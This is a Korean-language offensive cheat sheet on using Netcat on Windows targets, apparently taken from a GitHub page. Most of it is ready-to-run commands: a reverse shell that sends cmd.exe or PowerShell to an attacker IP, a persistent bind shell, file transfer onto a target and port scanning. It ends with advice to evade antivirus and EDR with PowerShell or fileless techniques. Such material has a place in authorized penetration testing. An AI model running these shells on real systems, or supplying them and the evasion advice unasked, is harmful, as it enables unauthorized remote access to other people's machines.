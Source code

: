 

# Windows Netcat 활용 가이드

Netcat은 "TCP/IP 스위스 군용 칼"로 불릴 만큼 네트워크 작업에 다재다능한 도구입니다. Windows 환경에서도 리버스/바인드 셸, 파일 전송, 포트 스캐닝 등 다양한 용도로 활용될 수 있습니다.

---

### **1. Netcat 다운로드 및 실행**

- **권장:** Nmap 프로젝트에서 제공하는 `ncat`은 Netcat의 현대적인 버전으로, 더 많은 기능과 안정성을 제공합니다.
- **다운로드:** [Ncat Portable 버전](https://nmap.org/dist/ncat-portable-5.59BETA1.zip)을 다운로드하여 타겟 시스템에 업로드합니다. (파일 전송 가이드 참고)

---

### **2. 리버스 셸 (Reverse Shell)**

- **개념:** 타겟 시스템이 공격자 머신으로 연결을 시도하여 셸을 제공하는 방식입니다. 방화벽 우회에 효과적입니다.

#### **공격자 (Kali): 리스너 실행**
```bash(title="Netcat 리스너")
# -l: 리스닝 모드
# -v: 상세 출력
# -n: DNS 룩업 비활성화
# -p: 리스닝할 포트
rlwrap nc -lvnp 443
```

#### **타겟 (Windows): 셸 연결**
```powershell(title="cmd.exe 셸 연결")
# -e: 지정된 프로그램을 실행하고 입출력을 리다이렉션
C:\Path\To\nc.exe <attacker_ip> 443 -e cmd.exe
```

```powershell(title="PowerShell.exe 셸 연결")
C:\Path\To\nc.exe <attacker_ip> 443 -e powershell.exe
```

---

### **3. 바인드 셸 (Bind Shell)**

- **개념:** 타겟 시스템이 특정 포트에서 리스닝하며, 공격자가 해당 포트로 접속하여 셸을 획득하는 방식입니다. 타겟 시스템의 방화벽이 해당 포트를 허용해야 합니다.

#### **타겟 (Windows): 셸 리스너 실행**
```powershell(title="Netcat 바인드 셸")
# -L: 연결이 끊어져도 계속 리스닝 (지속성)
# -v: 상세 출력
# -p: 리스닝할 포트
C:\Path\To\nc.exe -Lvp 8080 -e cmd.exe
```

#### **공격자 (Kali): 셸 접속**
```bash(title="Netcat 셸 접속")
nc <target_ip> 8080
```

---

### **4. 파일 전송**

- **개념:** Netcat을 사용하여 간단한 파일을 TCP 스트림으로 전송합니다.

#### **공격자 -> 타겟 (파일 전송)**
```bash(title="공격자: 파일 전송")
# 4444 포트에서 리스닝하며 file_to_send.txt 내용을 전송
nc -lvp 4444 < file_to_send.txt
```
```powershell(title="타겟: 파일 수신")
# 공격자에게 접속하여 수신된 데이터를 received_file.txt에 저장
C:\Path\To\nc.exe <attacker_ip> 4444 > received_file.txt
```

---

### **5. 포트 스캐닝**

- **개념:** Netcat을 사용하여 특정 포트가 열려있는지 간단히 확인할 수 있습니다.

```powershell(title="Netcat 포트 스캔")
# -zv: 상세 출력 및 제로-I/O 모드 (연결 후 데이터 전송 없이 종료)
C:\Path\To\nc.exe -zv <target_ip> <port_number>
# 예: nc.exe -zv 192.168.1.1 80
```

---

### **6. 주의사항**

- **AV/EDR 탐지:** Netcat은 공격 도구로 널리 알려져 있어, 대부분의 백신(AV)이나 EDR(Endpoint Detection and Response) 솔루션에 의해 탐지될 가능성이 높습니다.
- **대체 도구:** 탐지를 우회해야 하는 경우, PowerShell 기반의 리버스 셸이나 다른 파일리스(Fileless) 기법을 고려해야 합니다.

